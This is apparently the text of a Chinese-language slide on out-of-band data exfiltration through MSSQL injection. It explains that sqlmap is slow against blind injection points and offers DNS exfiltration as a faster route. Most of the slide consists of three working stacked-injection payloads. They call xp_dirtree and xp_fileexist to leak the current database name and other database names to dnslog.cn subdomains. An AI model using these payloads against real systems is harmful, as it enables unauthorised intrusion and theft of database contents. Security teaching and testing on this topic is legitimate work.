

MSSql注入数据外带
MSSql注入数据外带
当注入点仅存在盲注时，使用sqlmap出数据太慢，使用数据外带加速出数据。
DNS数据外带
存在堆叠注入数据外带
注入过程：
Payload：id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.x0t1df.dnslog.cn\\a" ')—
Payload： id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_fileexist "//'%2B@a%2B'.7wb9ur.dnslog.cn\\a" ')--
Payload： id=1';declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_fileexist "//'%2B@a%2B'.e0cwlo.dnslog.cn\\a" ')--